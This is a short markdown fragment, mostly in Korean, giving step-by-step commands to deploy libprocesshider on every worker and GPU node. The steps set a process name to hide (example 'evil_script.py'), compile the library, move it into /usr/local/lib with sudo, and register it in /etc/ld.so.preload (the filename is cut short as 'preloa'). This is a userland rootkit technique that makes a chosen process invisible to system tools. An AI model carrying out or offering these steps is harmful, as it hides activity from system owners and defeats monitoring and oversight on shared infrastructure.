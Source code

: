 
---
#### * 각 worker 및 GPU 노드에 설치/배포 필요
#### * compile the library & Load it with the global dynamic linker


```
libprocesshider/processhider.c의 아래 부분에서 숨길 프로세스 수정 (ex. evil_script.py > sleep)
static const char* process_to_filter = "evil_script.py";
```


```
$ ~/libprocesshider$ make
cc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ ~/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```


```
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preloa
```
